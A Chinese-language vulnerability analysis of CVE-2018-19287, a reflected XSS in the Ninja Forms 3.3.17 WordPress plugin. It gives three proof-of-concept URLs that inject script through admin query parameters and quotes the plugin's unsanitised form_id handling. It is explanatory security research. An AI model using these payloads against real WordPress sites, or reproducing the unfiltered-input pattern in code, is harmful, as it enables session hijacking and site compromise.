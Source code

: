 # CVE-2018-19287 WordPress Plugin - Ninja Forms 3.3.17 XSS

### 一、漏洞简介

Ninja Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

### 二、漏洞影响

### 三、复现过程

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。


```bash
http://url/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1

http://url/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1

http://url/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1
```

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：

![](images/15895195849896.png)


下图是触发第二个POC的图：

![](images/15895196041531.png)


下图是触发第三个POC的图：

![](images/15895196206377.png)


#### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf_sub，确定了核心文件\wp-content\plugins\ninja-forms\includes\Admin\Menus\Submissions.php。

下图是Submissions.php部分内容：

![](images/15895196440302.png)


通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：


```php
public function change_views( $views )
{
    // Remove our unused views.
    unset( $views[ 'mine' ] );
    unset( $views[ 'publish' ] );
    // If the Form ID is not empty...
    if( ! empty( $_GET[ 'form_id' ] ) ) {
        // ...populate the rest of the query string.
        $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';
    } else {
        // ...otherwise send in an empty string.
        $form_id = '';
    }
    // Build our new views.
    $views[ 'all' ] = '<a href="' . admin_url( 'edit.php?post_status=all&post_type=nf_sub'  ) . $form_id . '">'
                    . __( 'Completed', 'ninja-forms' ) . '</a>';
    $views[ 'trash' ] = '<a href="' . admin_url( 'edit.php?post_status=trash&post_type=nf_sub' ) . $form_id . '">'
                        . __( 'Trashed', 'ninja-forms' ) . '</a>';
    // Checks to make sure we have a post status.
    if( ! empty( $_GET[ 'post_status' ] ) ) {
        // Depending on the domain set the value to plain text.
        if ( 'all' == $_GET[ 'post_status' ] ) {
            $views[ 'all' ] = __( 'Completed', 'ninja-forms' );
        } else if ( 'trash' == $_GET[ 'post_status' ] ) {
            $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );
        }
    }
    return $views;
}
```

从上面代码，我们可以看到，form_id并没有被过滤，导致XSS存在。


```
$form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';
```

四、参考链接

https://www.exploit-db.com/exploits/45880/

https://www.freebuf.com/vuls/190411.html